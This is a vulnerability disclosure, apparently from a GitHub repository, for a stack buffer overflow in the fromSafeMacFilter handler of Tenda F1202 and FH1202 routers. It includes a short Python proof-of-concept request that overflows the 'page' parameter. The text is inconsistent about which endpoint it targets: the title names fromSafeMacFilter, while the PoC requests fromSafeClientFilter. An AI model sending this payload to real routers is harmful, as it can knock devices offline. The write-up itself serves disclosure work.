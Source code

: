 # Tenda Router Vulnerability on fromSafeMacFilter function

This vulnerability lies in the `/goform/fromSafeMacFilter` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html) and influence PA202,PW201A,4G300

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `fromSafeMacFilter` it reads 1 user provided parameters `page` into `v8`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v11`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/fromSafeClientFilter`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromSafeClientFilter?"
url += "page=" + "s" * 0x200
url += "&menufactuer=tenda&op=0" 
url += "&entrys="+'s'


response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge